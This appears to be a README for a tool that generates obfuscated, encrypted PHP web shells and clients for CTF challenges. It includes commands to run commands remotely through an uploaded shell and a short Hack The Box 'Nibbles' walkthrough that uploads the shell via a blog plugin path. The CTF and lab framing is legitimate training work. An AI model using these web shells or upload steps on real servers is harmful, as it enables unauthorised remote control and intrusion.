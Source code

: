 
Generate  web shells easily for CTF challenges including.

- Encryption 
- Authorization 
- Obfuscation 

> Quickly generate a new webshell and client.
```
sh gen_php_webshell.sh
```

> Execute Commands on the target using  the syntax bellow or implement your own client.
```
php-cgi -f client-afbffcfaefdb.php \
	url=http://127.0.0.1/afbffcfaefdb.php \
	cmd='id'
```
![](images/gen_php_webshell.png)

Another example from [Nibbles](https://app.hackthebox.com/machines/121)
![](images/banner.png)

-> first we must  generate a new client and webshell.
![](images/create.png)

-> Now we just need to upload it and find our file.
![](images/upload.png)

-> Here it is `/nibbleblog/content/private/plugins/my_image/image.php`
![](images/found.png)

So our command we'll look like this. 
```
php-cgi -f client-aaaacdecaff.php \
url=http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php \
	cmd='id'
```
![](images/nibbler.png)

That's all! Cheers